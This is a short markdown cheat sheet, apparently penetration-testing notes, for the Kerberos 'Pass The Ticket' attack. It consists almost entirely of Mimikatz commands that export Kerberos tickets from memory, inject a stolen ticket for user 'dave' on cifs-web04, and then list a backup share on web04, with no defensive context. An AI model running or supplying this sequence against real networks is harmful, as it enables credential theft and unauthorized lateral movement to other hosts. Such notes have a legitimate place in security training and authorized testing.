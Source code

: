 # Pass The Ticket

```
privilege::debug
sekurlsa::tickets /export
```

```
dir *.kirbi
```

```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

```
klist
```

```
ls \\web04\backup
```
